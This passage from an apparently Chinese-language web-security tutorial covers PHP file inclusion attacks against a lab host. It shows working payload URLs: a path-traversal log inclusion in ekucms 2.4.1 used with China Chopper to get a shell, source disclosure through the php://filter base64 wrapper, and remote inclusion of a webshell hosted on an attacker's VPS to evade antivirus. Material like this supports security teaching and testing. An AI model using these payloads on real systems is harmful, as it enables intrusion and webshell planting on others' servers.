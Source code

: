 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaJbDROFlF31hnBjaMcPUhrwJHfhTJqWB6MlG44bFvacX141hbQTfCrA/640?wx_fmt=png)

②该日志是以时间日期命名的，用菜刀连接该日志文件，得到 shell

```
http://192.168.1.3/ekucms2.4.1/?s=my/show/id/\\..\\temp\\logs\\20\_05\_18.log
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviamgKbpRSeFFcrlyPKA9LqZJN15z54qSh8xiaZicSibQvgVyAL7BoWDiabCw/640?wx_fmt=png)  

**8\. 读源代码**
------------

直接读取 php 文件返回的是代码编译解析后的结果，并不能看到源代码。

```
http://192.168.1.3/news.php?id=shell.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviapLcmGjHopVo1cczYxIvJ5XLrOicamln3sic7zT6K83ZfTd12dVDXhRgw/640?wx_fmt=png)  

此时可以使用封装伪协议读取：

```
http://192.168.1.3/news.php?id=php://filter/read=convert.base64-encode/resource=shell.php
//核心代码：id=php://filter/read=convert.base64-encode/resource=
//读出源代码，原理是将文件内容进行base64加密，使代码不运行解析，直接读出源代码。
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaCibKAHY94jY4lniambMibTbia7ZicaPLvqtkKNv29sRibAAva9bpiahn1WTcw/640?wx_fmt=png)  

**9\. 远程文件包含**

远程文件包含文件名不能为 php 可解析的扩展名。另外远程文件包含要确保 php.ini 中 allow\_url\_fopen 和 allow\_url\_include 状态为 on。为躲避杀软将大马放到自己的 vps 上然后远程包含。  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaUib6I4GL7tS8pCYacpy5wTVoXibkNGfmMncM4uPfVxC0zpgF6w2WHiavg/640?wx_fmt=png)

```
http://192.168.1.3/1.php?file=http://www.xxxx.com/1.png
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcvia5JqTMYrak9nqkia86RmJABJe0hWyrN5prYAXsc8uEzicgsicib10LVV1KQ/640?wx_fmt=png)

**远程包含限制绕过后缀名限制：  
**

```
#源代码
<?php 
include($\_GET\['filename'\] . ".html"); 
?>
```

与本地包含类似，如果源码存在后缀名限制，直接进行远程包含的话会报错如下：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviahjbjyjextu7v9yhTO5nuu3J1ptyIKloZYJkHC9gzdicDBp0OWZz6bHw/640?wx_fmt=png)
